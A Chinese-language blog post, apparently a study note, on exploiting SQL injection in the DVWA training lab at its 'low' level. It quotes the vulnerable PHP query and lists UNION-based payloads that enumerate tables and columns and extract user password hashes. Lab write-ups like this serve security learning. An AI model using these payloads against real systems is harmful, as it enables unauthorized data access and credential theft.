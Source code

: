 ```yaml
---
title: dvwa--SQL注入(low)
tags:
  - DVWA
categories:
  - 学习
  - web安全
  - DVWA
abbrlink: cb7e67e1
date: 2022-04-21 09:14:11
---
```


# dvwa--SQL注入（low）

## 概念

SQL注入即是指web应用程序对用户输入数据的合法性没有判断或过滤不严，攻击者可以在web应用程序中事先定义好的查询语句的结尾上添加额外的SQL语句，在管理员不知情的情况下实现非法操作，以此来实现欺骗数据库服务器执行非授权的任意查询，从而进一步得到相应的数据信息。 

## 过程

low级代码分析

```php
 $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
```

未对输入进行过滤，我们输入的内容会传给`$id`，因此可以考虑在输入上做文章



**我们可以通过以下步骤判断这里是否存在注入点**

① 输入1 提交

![1](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220421091015.png)

②输入1' 提交

![2](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220421091034.png)

③输入1 and 1=1 提交

![3](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220421091040.png)

④输入1 and 1=2提交

![4](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220421091048.png)



**猜解 SQL 查询语句中的字段数, **

①1' order by 1#

![5](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220421091052.png)

②1' order by 2#

![6](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220421091055.png)

③1' order by 3# 从上面两个图, 可以说明,,SQL 语句查询的表的的字段数位 2

![7](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220421091100.png)

④确定显示的位置 (SQL 语句查询之后的回显位置)

1' union select 1,2# #从下图可以看出有 2 个回显

![8](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220421091102.png)



**查询当前的数据库, 以及版本**

1' union select version(),database()#

![9](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220421091105.png)

获取数据库中的表,

1' union select 1, group_concat(table_name) from information_schema.tables where table_schema=database()#

![10](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220421091108.png)

获取表中的字段名,

1'union select 1, group_concat(column_name) from information_schema.columns where table_name='users'#

![11](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220421091111.png)

获得字段中的数据,

1' union select user, password from users#

![12](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/dvwa--SQL%E6%B3%A8%E5%85%A5/20220421091114.png)
